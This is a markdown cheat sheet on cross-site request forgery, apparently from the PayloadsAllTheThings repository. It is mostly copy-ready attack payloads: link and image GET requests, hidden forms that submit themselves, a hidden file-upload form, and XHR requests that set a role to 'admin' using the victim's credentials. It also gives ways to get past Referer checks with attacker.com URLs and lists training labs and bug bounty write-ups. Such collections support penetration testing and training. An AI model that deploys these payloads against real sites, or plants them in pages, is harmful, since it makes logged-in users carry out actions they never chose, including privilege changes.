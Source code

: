 # Cross-Site Request Forgery

> Cross-Site Request Forgery (CSRF/XSRF) is an attack that forces an end user to execute unwanted actions on a web application in which they're currently authenticated. CSRF attacks specifically target state-changing requests, not theft of data, since the attacker has no way to see the response to the forged request. - OWASP


## Summary

* [Tools](#tools)
* [Methodology](#methodology)
* [Payloads](#payloads)
    * [HTML GET - Requiring User Interaction](#html-get---requiring-user-interaction)
    * [HTML GET - No User Interaction)](#html-get---no-user-interaction)
    * [HTML POST - Requiring User Interaction](#html-post---requiring-user-interaction)
    * [HTML POST - AutoSubmit - No User Interaction](#html-post---autosubmit---no-user-interaction)
    * [HTML POST - multipart/form-data with file upload - Requiring User Interaction](#html-post---multipartform-data-with-file-upload---requiring-user-interaction)
    * [JSON GET - Simple Request](#json-get---simple-request)
    * [JSON POST - Simple Request](#json-post---simple-request)
    * [JSON POST - Complex Request](#json-post---complex-request)
* [Bypass referer header validation check](#bypass-referer-header-validation)
    * [Basic payload](#basic-payload)
    * [With question mark payload](#with-question-mark-payload)
    * [With semicolon payload](#with-semicolon-payload)
    * [With subdomain payload](#with-subdomain-payload)
* [Labs](#labs)
* [References](#references)


## Tools

* [XSRFProbe - The Prime Cross Site Request Forgery Audit and Exploitation Toolkit.](https://github.com/0xInfection/XSRFProbe)


## Methodology

![CSRF_cheatsheet](https://github.com/techanvconsulting/PayloadsAllTheThings/blob/master/CSRF%20Injection/Images/CSRF-CheatSheet.png?raw=true)

## Payloads

When you are logged in to a certain site, you typically have a session. The identifier of that session is stored in a cookie in your browser, and is sent with every request to that site. Even if some other site triggers a request, the cookie is sent along with the request and the request is handled as if the logged in user performed it.


### HTML GET - Requiring User Interaction

```html
<a href="http://www.example.com/api/setusername?username=CSRFd">Click Me</a>
```


### HTML GET - No User Interaction

```html
<img src="http://www.example.com/api/setusername?username=CSRFd">
```


### HTML POST - Requiring User Interaction

```html
<form action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="CSRFd" />
 <input type="submit" value="Submit Request" />
</form>
```


### HTML POST - AutoSubmit - No User Interaction

```html
<form id="autosubmit" action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="CSRFd" />
 <input type="submit" value="Submit Request" />
</form>
 
<script>
 document.getElementById("autosubmit").submit();
</script>
```


### HTML POST - multipart/form-data with file upload - Requiring User Interaction

```html
<script>
function launch(){
    const dT = new DataTransfer();
    const file = new File( [ "CSRF-filecontent" ], "CSRF-filename" );
    dT.items.add( file );
    document.xss[0].files = dT.files;

    document.xss.submit()
}
</script>

<form style="display: none" name="xss" method="post" action="<target>" enctype="multipart/form-data">
<input id="file" type="file" name="file"/>
<input type="submit" name="" value="" size="0" />
</form>
<button value="button" onclick="launch()">Submit Request</button>
```


### JSON GET - Simple Request

```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://www.example.com/api/currentuser");
xhr.send();
</script>
```


### JSON POST - Simple Request

With XHR :

```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.example.com/api/setrole");
//application/json is not allowed in a simple request. text/plain is the default
xhr.setRequestHeader("Content-Type", "text/plain");
//You will probably want to also try one or both of these
//xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
//xhr.setRequestHeader("Content-Type", "multipart/form-data");
xhr.send('{"role":admin}');
</script>
```

With autosubmit send form, which bypasses certain browser protections such as the Standard option of [Enhanced Tracking Protection](https://support.mozilla.org/en-US/kb/enhanced-tracking-protection-firefox-desktop?as=u&utm_source=inproduct#w_standard-enhanced-tracking-protection) in Firefox browser :

```html
<form id="CSRF_POC" action="www.example.com/api/setrole" enctype="text/plain" method="POST">
// this input will send : {"role":admin,"other":"="}
 <input type="hidden" name='{"role":admin, "other":"'  value='"}' />
</form>
<script>
 document.getElementById("CSRF_POC").submit();
</script>
```

### JSON POST - Complex Request

```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.example.com/api/setrole");
xhr.withCredentials = true;
xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
xhr.send('{"role":admin}');
</script>
```

## Bypass referer header validation

### Basic payload
```
1) Open https://attacker.com/csrf.html
2) Referer header is ..

Referer: https://attacker.com/csrf.html
```
### With question mark(`?`) payload
```
1) Open https://attacker.com/csrf.html?trusted.domain.com
2) Referer header is ..

Referer: https://attacker.com/csrf.html?trusted.domain.com
```

### With semicolon(`;`) payload
```
1) Open https://attacker.com/csrf.html;trusted.domain.com
2) Referer header is ..

Referer: https://attacker.com/csrf.html;trusted.domain.com
```

### With subdomain payload
```
1) Open https://trusted.domain.com.attacker.com/csrf.html
2) Referer headers is ..

Referer: https://trusted.domain.com.attacker.com/csrf.html
```


## Labs

* [CSRF vulnerability with no defenses](https://portswigger.net/web-security/csrf/lab-no-defenses)
* [CSRF where token validation depends on request method](https://portswigger.net/web-security/csrf/lab-token-validation-depends-on-request-method)
* [CSRF where token validation depends on token being present](https://portswigger.net/web-security/csrf/lab-token-validation-depends-on-token-being-present)
* [CSRF where token is not tied to user session](https://portswigger.net/web-security/csrf/lab-token-not-tied-to-user-session)
* [CSRF where token is tied to non-session cookie](https://portswigger.net/web-security/csrf/lab-token-tied-to-non-session-cookie)
* [CSRF where token is duplicated in cookie](https://portswigger.net/web-security/csrf/lab-token-duplicated-in-cookie)
* [CSRF where Referer validation depends on header being present](https://portswigger.net/web-security/csrf/lab-referer-validation-depends-on-header-being-present)
* [CSRF with broken Referer validation](https://portswigger.net/web-security/csrf/lab-referer-validation-broken)


## References

- [Cross-Site Request Forgery Cheat Sheet - Alex Lauerman - April 3rd, 2016](https://trustfoundry.net/cross-site-request-forgery-cheat-sheet/)
- [Cross-Site Request Forgery (CSRF) - OWASP](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF))
- [Messenger.com CSRF that show you the steps when you check for CSRF - Jack Whitton](https://whitton.io/articles/messenger-site-wide-csrf/) 
- [Paypal bug bounty: Updating the Paypal.me profile picture without consent (CSRF attack) - Florian Courtial](https://hethical.io/paypal-bug-bounty-updating-the-paypal-me-profile-picture-without-consent-csrf-attack/)
- [Hacking PayPal Accounts with one click (Patched) - Yasser Ali](http://yasserali.com/hacking-paypal-accounts-with-one-click/)
- [Add tweet to collection CSRF - vijay kumar](https://hackerone.com/reports/100820)
- [Facebookmarketingdevelopers.com: Proxies, CSRF Quandry and API Fun - phwd](http://philippeharewood.com/facebookmarketingdevelopers-com-proxies-csrf-quandry-and-api-fun/)
- [How i Hacked your Beats account ? Apple Bug Bounty - @aaditya_purani](https://aadityapurani.com/2016/07/20/how-i-hacked-your-beats-account-apple-bug-bounty/)
- [FORM POST JSON: JSON CSRF on POST Heartbeats API - Dr.Jones](https://hackerone.com/reports/245346)
- [Hacking Facebook accounts using CSRF in Oculus-Facebook integration](https://www.josipfranjkovic.com/blog/hacking-facebook-oculus-integration-csrf)
- [Cross site request forgery (CSRF) - Sjoerd Langkemper - Jan 9, 2019](http://www.sjoerdlangkemper.nl/2019/01/09/csrf/)
- [Cross-Site Request Forgery Attack - PwnFunction](https://www.youtube.com/watch?v=eWEgUcHPle0)
- [Wiping Out CSRF - Joe Rozner - Oct 17, 2017](https://medium.com/@jrozner/wiping-out-csrf-ded97ae7e83f)
- [Bypass referer check logic for CSRF](https://www.hahwul.com/2019/10/11/bypass-referer-check-logic-for-csrf/)
